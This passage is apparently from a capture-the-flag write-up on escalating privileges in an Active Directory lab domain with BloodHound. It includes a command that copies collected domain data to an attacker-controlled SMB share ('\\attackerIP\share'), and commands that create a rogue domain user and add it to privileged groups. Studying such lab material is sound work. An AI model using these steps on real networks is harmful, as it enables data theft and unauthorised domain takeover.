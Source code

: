 ```shell
```

Let's download the zip file using smb.

First, I setup a SMB server on my machine using the following command:

```bash
sudo impacket-smbserver share ./ -smb2support
```

On the compromised machine i run the following command to download the zip file.

```shell
copy 20230903020046_BloodHound.zip \\attackerIP\share
```

Now we run BloodHound and upload the zip file.

We search for user `svc-alfresco`, go to node info and select `Unrolled Group membership`.

![](1.png)

This show that our user is a member of the `Account Operators` group through a nested Membership:

`svc-alfresco` is member of `Service Accounts` which is member of `Privileged IT Accounts` which is member of `Account Operatos`

Members of the `Account Operators` group can create and modify users and add them to non-protected groups.

Now let's search for `Shortest path to domain admins`

![](2.png)

According to `BloodHound`, the `Account Operators` have `Generic All` privileges over the group `EXCHANGE WINDOWS PERMISSIONS`.
This is also known as full control.

Also. The members of the group `EXCHANGE WINDOWS PERMISSIONS` have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL. With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

Right click on the `Generic all` and select help shows us how to exploit this permission.

![](3.png)

It suggests using `Powerview.ps1` and `net` to exploit this right.

First We add a user to the domain using the following command:

```shell
net user hacker Pass123! /add /domain
```

Now we need add the new user to the `EXCHANGE WINDOWS PERMISSIONS` group so that we can add rights:

```shell
net group "Exchange Windows Permissions" hacker /add
```

We also need to add it to `Remote Management Users` to be able to connect with it.
